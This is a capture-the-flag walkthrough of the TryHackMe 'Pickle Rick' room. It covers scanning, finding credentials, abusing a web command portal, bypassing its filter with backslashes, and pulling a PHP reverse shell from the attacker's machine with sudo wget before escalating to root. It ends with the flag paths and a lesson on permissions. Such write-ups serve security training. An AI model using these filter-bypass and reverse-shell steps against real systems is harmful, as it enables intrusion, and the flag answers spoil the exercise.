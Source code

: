 <p align="center">
  THM : Pickle Rick<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/picklerick<br>
  <img src="https://i.imgur.com/3ypKR1f.png">
</p>

## Summary
- [NMAP Scan](#nmap-scan)
- [Manual Website Enumeration](#manual-website-enumeration)
- [Dirb Scan](#dirb-scan)
- [Getting a shell](#getting-a-shell)
- [Find flags](#find-flags)
- [Conclusion](#conclusion)

## NMAP Scan
```
# Nmap 7.92 scan initiated Fri Aug 19 23:14:31 2022 as: nmap -A -p- -oN nmapResults.txt 10.10.99.97
Nmap scan report for 10.10.99.97
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 66:c4:52:9e:e4:3a:d7:d1:cb:3f:d7:0e:e6:09:82:6e (RSA)
|_  256 3c:31:4a:49:af:7d:8e:75:70:40:db:04:69:d5:18:e6 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 19 23:14:48 2022 -- 1 IP address (1 host up) scanned in 17.18 seconds
```
## Manual website enumeration
If we go to the index page of the website, we can see that Rick is talking about a password that he forgot.
![alt text](https://i.imgur.com/1xrSiU4.png)  

Looking at the source code of the page, we can see that Rick left a comment containing a username.  
![alt text](https://i.imgur.com/1YaCAlY.png)  
So now we have a username : **R1ckRul3s**

One of the first things I look for when i'm enumerating a website is the robot.txt file. So let's see if there is a robot.txt file on this web server.  
![alt text](https://i.imgur.com/cqP0pux.png)  
And we found a strange looking strings... It's not a page of the webserver so.. Maybe the password that Rick lost ? Let's write it down for the moment.  
## Dirb Scan
First I tried a simple dirb scan but it didn't found any interesting pages, so I decided to try using the -X parameter to search for page with extensions like so : ```dirb http://10.10.99.97/ -X .php```  
```
┌──(attacker㉿AttackBox)-[~/Bureau/CTF/Pickle_Rick]
└─$ dirb http://10.10.99.97/ -X .php     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Aug 19 23:20:38 2022
URL_BASE: http://10.10.99.97/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.99.97/ ----
+ http://10.10.99.97/denied.php (CODE:302|SIZE:0)
+ http://10.10.99.97/login.php (CODE:200|SIZE:882)
```
And we found a login.php page ! (The denied.php page redirects us to login.php)  
So let's go to this page and try to login with the informations we gathered :
![alt text](https://i.imgur.com/reIQn7I.png)  

Using **R1ckRul3s** as login and **Wubbalubbadubdub** as password, we are redirected to a portal.php page.  
![alt text](https://i.imgur.com/B3hfAUr.png)  

We cannot access any pages using the menu on top of the page. But here we have an input field that seems to be used to run commands. So let's try using **whoami**.  
![alt text](https://i.imgur.com/2u9jgra.png)  
We see that we can run linux commands. So we can try to use some other commands... I tried some useful commands and , we can run ls, wget, sudo -l, and cat, but there is some filters that prevent from using some commands , like for cat.  
We can easily bypass those filters by just putting a '\\' inside the command, like so : **c\at file**.  
Now we have multiple choices... I could just find the different flags using this command input, but I want to get a reverse shell, it will be more easier to search on the machine.  
Like I said, we can use sudo -l and ...  
![alt text](https://i.imgur.com/FKO4Icb.png)  
Yes... www-data can run any commands as root, without password.

## Getting a shell
I tried to download a reverse shell to the machine using wget, but it didn't work, because www-data don't have write premissions to /var/www/html. So I just ran the same command as sudo like so : ```sudo wget [my ip]/php-reverse-shell.php```.
Then I just set up a netcat listener on my machine, I entered http://[machine ip]/php-reverse-shell.php in the URL of my web browser, and I got a reverse shell.
Now I can just run ```python3 -c 'import pty; pty.spawn("/bin/bash")'``` and then ```sudo su``` to get a shell as root.  

## Find flags
Now I can get the 3 flags (ingredients for the potion that Rick needs) :  
What is the first ingredient Rick needs ? : **cat /var/www/html/Sup3rS3cretPickl3Ingred.txt**  
Whats the second ingredient Rick needs ? : **cat /home/rick/second\ ingredients**  
Whats the final ingredient Rick needs ? : **cat /root/3rd.txt**  

## Conclusion
In this CTF, we see that it can be useful to read the source code of pages on a web server, we can find useful informations, even if there is no credentials we can find CMS versions, links to other pages...  
I also learned that it is very easy for an attacker to get a full control of the machine if the user www-data has too much permissions. It is very important to manage permissions properly, www-data should not have the right to run any command as root.
Also, even if there is filters on command input, there is sometimes a way to bypass it.

